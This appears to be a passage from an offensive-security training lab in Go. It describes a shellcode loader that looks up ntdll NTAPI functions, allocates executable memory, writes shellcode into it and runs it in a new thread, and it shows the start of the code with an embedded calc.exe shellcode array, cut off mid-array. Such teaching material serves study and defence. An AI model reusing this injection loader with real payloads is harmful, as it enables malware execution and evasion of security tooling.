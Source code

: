 ```yaml
---
showTableOfContents: true
title: "Calling Native API Functions via Syscall Package (Lab 11.2)"
type: "page"
---
```

## Goal
In Theory 11.3, we learned that calling Native API functions often requires bypassing standard Go wrappers and using the `syscall` package directly, specifically `syscall.SyscallN`. This involves obtaining the function's address (as demonstrated in our previous function lookup lab), understanding its signature, carefully preparing arguments as `uintptr` values (often using `unsafe.Pointer`), and meticulously checking the `NTSTATUS` return value for success.

In this lab we'll put these concepts into practice to construct a simple loader that will inject and execute our calc.exe shellcode within  its own process space using solely Native API functions. Specifically, we'll:

1. Dynamically find the addresses of `NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtCreateThreadEx`, `NtWaitForSingleObject`, `NtClose`, and `NtFreeVirtualMemory` within `ntdll.dll`.
2. Call `NtAllocateVirtualMemory` via `syscall.SyscallN` to allocate a memory region with `PAGE_EXECUTE_READWRITE` permissions.
3. Utilize `NtWriteVirtualMemory` via `syscall.SyscallN` to copy our `calc.exe` shellcode into this allocated buffer.
4. Execute the shellcode by calling `NtCreateThreadEx` via `syscall.SyscallN`, pointing it to our shellcode's memory location.
5. Ensure proper execution flow and cleanup by calling `NtWaitForSingleObject` to wait for the shellcode thread to complete, followed by `NtClose` to close the thread handle.
6. Verify that each NTAPI call succeeds by checking the `NTSTATUS` return code, logging detailed error information if any step fails.
7. Finally, clean up the allocated memory using `NtFreeVirtualMemory` via `syscall.SyscallN` to release the resources back to the system.

This lab demonstrates the direct use of NTAPI for core process injection steps: memory allocation, writing to process memory, and thread creation, all while managing resources and checking for errors at each stage.

## Code

```go
//go:build windows
// +build windows

package main

import (
	"fmt"
	"log"
	"unsafe" // Required for unsafe.Pointer
	// "os"     // For os.Exit - Not strictly needed here if we log.Fatal

	"golang.org/x/sys/windows" // For constants and some Windows types
	"syscall"                  // For SyscallN
)

// Shellcode to launch calc.exe (x64)
var calcShellcode = []byte{
	0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C, 0x63,
	0x54, 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48,
	0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C,
	0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24,
	0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45,
	0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7,
	0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3,
```